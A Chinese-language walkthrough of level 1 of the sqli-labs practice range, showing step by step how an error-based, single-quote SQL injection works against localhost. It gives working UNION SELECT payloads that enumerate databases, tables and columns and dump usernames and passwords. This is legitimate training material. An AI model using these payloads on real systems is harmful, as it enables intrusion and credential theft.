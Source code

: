 # SQLI靶场

[![NPM](https://img.shields.io/npm/v/docsify-themeable.svg?style=flat-square)](https://www.npmjs.com/package/docsify-themeable)
[![Codacy grade](https://img.shields.io/codacy/grade/860d40719cbd4e0f91e145b87ec7c29a.svg?style=flat-square)](https://www.codacy.com/app/jhildenbiddle/docsify-themeable?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=jhildenbiddle/docsify-themeable&amp;utm_campaign=Badge_Grade)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square)](https://github.com/jhildenbiddle/docsify-themeable/blob/master/LICENSE)
[![jsDelivr](https://data.jsdelivr.com/v1/package/npm/docsify-themeable/badge)](https://www.jsdelivr.com/package/npm/docsify-themeable)
[![Tweet](https://img.shields.io/twitter/url/http/shields.io.svg?style=social)](https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2Fjhildenbiddle%2Fdocsify-themeable&hashtags=css,docsify,developers,frontend)
<a class="github-button" href="https://github.com/jhildenbiddle/docsify-themeable" data-icon="octicon-star" data-show-count="true" aria-label="Star jhildenbiddle/docsify-themeable on GitHub">Star</a>

## 第一关-GET – 基于错误 – 单引号 – 字符型
**1.添加id=1正常，id=1' 报错，报错，发现报错信息多出一个单引号，后面闭合语句也是用的单引号发现页面返回正常，说明是字符型注入，单引号。**
```
http://localhost/sqli-labs/Less-1/?id=1'
```
  <figure class="thumbnails">
    <img src="assets/img/sqli第一关.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**2.在url中把单引号后面的语句注释掉。 返回正常，说明sql语句执行成功了，因为条件永远为真，所以正常返回**
```  
http://localhost/sqli-labs/Less-1/?id=1' --+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关1.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**3. 猜解字段数，测试到4的时候报错，说明字段数是3。**
```
http://localhost/sqli-labs/Less-1/?id=1' order by 3--+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关2.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**4.确定显位数字，发现2,3均可回显**
```
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,3--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关3.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**5.获取当前数据库名，报错注入，数据库名为：security**
```
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,
(select database()) ,
3 --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关4.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**65.还可以获取所有的数据库名**
```
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,
2,
(select group_concat(schema_name) from information_schema.schemata)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关5.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**7.获取当前数据库security的表名**
```
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,
2,
(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+

(security的hex编码是7365637572697479)
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关6.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**8.获取表的列名**
```
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,
2,
(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关8.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>


**9.获取字段数据**
```
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,
(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关7.png" alt="Screenshot of coverpage" title="Cover page">
    
</figure>

**10.其他语句等等**

### 第一关结束！！！！




<!-- GitHub Buttons -->
<script async defer src="https://buttons.github.io/buttons.js"></script>